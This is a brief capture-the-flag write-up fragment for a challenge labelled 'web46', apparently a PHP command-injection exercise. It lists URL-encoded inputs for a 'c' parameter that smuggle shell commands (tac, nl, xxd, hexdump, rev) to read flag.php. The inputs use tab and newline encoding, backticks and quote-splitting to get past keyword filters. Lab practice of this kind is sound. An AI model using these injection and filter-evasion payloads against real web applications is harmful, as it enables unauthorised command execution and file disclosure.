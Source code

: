 # web46
![](vx_images/589346562137746.png)
```
?c=tac%09`ls`%0a
?c=nl<fla''g.php%0A//f12查看
?c=xxd<fla''g.php%0A//16进制,f12查看
?c=hexdump<fla''g.php%0A//纯16进制
?c=rev<fla''g.php%0A//倒序读取
```